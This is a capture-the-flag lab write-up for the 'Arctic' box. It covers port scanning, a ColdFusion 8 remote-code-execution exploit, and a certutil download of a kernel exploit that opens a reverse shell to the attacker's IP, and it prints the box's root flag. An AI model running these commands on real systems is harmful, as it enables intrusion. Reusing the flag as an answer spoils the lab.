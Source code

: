 ### Larry Liu's Box Writeup | Arctic

## Enumeration

To begin, I ran the following commands to find the open ports and then detailed information about them (its IP was **10.10.10.11**):

```bash
nmap -Pn -n -vv --open -T4 10.10.10.11
nmap -Pn -n -p 135,8500,49154 -vv --open -sV -sC -T4 10.10.10.11
```

Seeing that port 8500 was a FTMP port, which stands for Flight Message Transfer Protocol, I tried to connect to it, bringing me to this index page:

<img src="Images/Image1.png" alt="Image1" width="75%"/>

Quick searches on what CFIDE and cfdocs stood for told me that the website was running Adobe Coldfusion. By digging through the cfdocs, I found that it was running Colfusion 8.
Searching online for an Adobe Colfusion 8 RCE gave me this exploit: https://www.exploit-db.com/exploits/50057

Running the exploit gave me a remote shell into the box, and I promptly retrieved the user flag.
<img src="Images/Image2.png" alt="Image2" width="75%"/>

To get the root flag, I ran system info and found that the machine was running *Microsoft Windows Server 2008 R2 Standard V. 6.1.7600,* equivalent to on-release Windows 7. Looking online for exploits brought me to this exploit: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri. All I had to do was get the exploit on their machine.

To do so, I utilized a local server to send the file over to the box.

```bash
# on my machine in a directory with the payload
python3 -m http.server <42068>

# on the box
certutil -urlcache -f "http://10.10.14.17:42068/Chimichurri.exe" Chimichurri.exe

# running the exploit

Chimichurri.exe 10.10.14.17 4444

```
I was able to obtain a reverse shell from this exploit, and from there, I navigated to the root flag, 82070982e2673deff31aa84282303a18, and pwned the box!
